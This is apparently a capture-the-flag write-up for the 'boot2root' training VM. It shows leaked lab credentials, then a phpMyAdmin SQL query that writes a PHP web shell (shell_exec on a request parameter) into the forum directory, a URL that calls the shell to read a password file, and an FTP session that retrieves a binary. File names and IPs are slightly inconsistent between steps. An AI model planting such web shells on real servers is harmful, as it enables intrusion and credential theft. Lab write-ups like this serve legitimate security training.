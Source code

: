 * On the webmail we have a login form, and we just find a password and a email in the forum section so we decided to give it a try.

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.04.21%20AM.png)

* Login: ```laurie@borntosec.net```
* Password: ```!q\]Ej?*5K5cy*AJ```

* When we logged in , we find a email with the subject ```DB Access```


![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.06.32%20AM.png)

* Login: ```root```
* Password: ```Fg-'kKXBj87E:aJ$```
* we really suspect in the access for a DB

### Phpmyadmin

* We tried the credentials of the email to login phpmyadmin and it worcks :)
* After some research on the web we stumble on this [aritcle](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)
* The injection sql we are looking for is:
```select "<?php $cmd = $_REQUEST['cmd']; $output = shell_exec($cmd); echo $output  ?>" into outfile "/var/www/forum/templates_c/cl.php"```
https://192.168.56.101/forum/templates_c/cl.php?cmd=cat%20/home/LOOKATME/password
* Copy past this line and go to to => https://10.12.1.150/phpmyadmin/index.php on the sql tab
* After this step your just need to go to https://10.12.1.150/forum/templates_c/endTest0.php
* You will find ```lmezard:G!@M6f4Eatau{sF"```
* Login: ```lmezard```
* Password: ```G!@M6f4Eatau{sF"```

## Use the credentials

* Now we got the password of the server, we can try to log on the FTP service
* ftp [YOUR-IP-ADDRESS]
* login with  ```lmezard``` ```G!@M6f4Eatau{sF"```
* turn on passive mode
* get the fun file, see example bellow:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||25027|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||7488|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |****************************************************************************************************************************************|   790 KiB  127.07 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (120.03 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||44244|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>
```
